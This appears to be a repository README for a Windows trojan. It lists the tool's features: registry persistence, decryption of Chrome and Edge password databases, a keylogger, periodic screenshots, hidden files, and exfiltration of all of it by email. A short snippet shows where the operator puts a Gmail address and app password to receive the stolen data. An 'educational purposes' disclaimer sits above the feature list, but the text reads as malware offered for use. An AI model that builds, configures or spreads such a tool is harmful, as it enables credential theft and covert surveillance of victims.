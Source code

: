 # Trojan

### Disclaimer:

#### Any use of the Software not for training purposes entails criminal liability. The author used the code for educational purposes

### How it Work (only on Windows):

1. The program is written to Windows startup via the registry
2. The decrypted Google database is written to a file
3. The decrypted Microsoft Edge database is written to a file
4. The keylogger starts working
5. The files from the database are sent to the mail
6. Once every 5 minutes, the keylogger file is sent to the mail
7. Screenshots every 10 seconds and sending this folder to the mail every 2 minutes
8. When the number of screenshots reaches 12, the folder with them is cleared
9. All files and folders are hidden, except for the program itself

#### The program runs in multiple threads, so all processes occur simultaneously

#### Replace it with your information (d'your_gmail' and 'password_appa') in **send_file** function. (If you want test this program) 
```
msg['From'] = 'your_gmail'
msg['To'] = 'your_gmail'
server.login('your_gmail', 'password_app')
``` 

